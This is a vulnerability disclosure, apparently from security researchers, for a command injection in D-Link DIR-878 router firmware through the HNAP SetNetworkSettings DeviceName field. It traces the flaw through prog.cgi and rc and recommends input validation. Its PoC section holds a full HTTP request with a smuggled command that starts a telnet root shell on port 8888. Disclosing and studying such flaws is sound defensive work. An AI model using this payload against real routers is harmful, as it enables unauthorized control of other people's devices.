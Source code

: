 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_878

Version:DIR_878_FW1.30B08_Hotfix_02(Download Link:https://support.dlink.com/ProductInfo.aspx?m=DIR-878)

Type:Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request. This occurs when any HNAP API function triggers a call to the `twsystem` function with untrusted input from the request body for the `SetNetworkSettings` API function (need authentication).

**Remote Command Execution**

In `prog.cgi` binary:

In `SetNetworkSettings` function,`DeviceName` is directly passed by the attacker.After that, call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

Then, we configure vlan, which will call the function `SetVLANSettings`.

In `rc` binary:

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

Then,`start_lan_up` -> `start_dev_mgt_link`.

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

There will be multiple ways to call the start_dev_mgt_link function (vulnerability trigger point) in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `DeviceName` as **;telnetd -l /bin/sh -p 8888 -b 0.0.0.0;** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 41A76B62FAB2A659CC98E8F9988EB5CC 1638684065941
Content-Length: 662
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Network.html
Cookie: uid=gN7NGFrG

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>192.168.0.1</IPAddress>
	<SubnetMask>255.255.255.0</SubnetMask>
	<DeviceName>;telnetd -l /bin/sh -p 8888 -b 0.0.0.0;</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>100</IPRangeStart>
	<IPRangeEnd>199</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

Then,I turn on the VLAN function of the router.

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result

This will triger the `start_dev_mgt_link` method, and then get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:100%;" /></div>
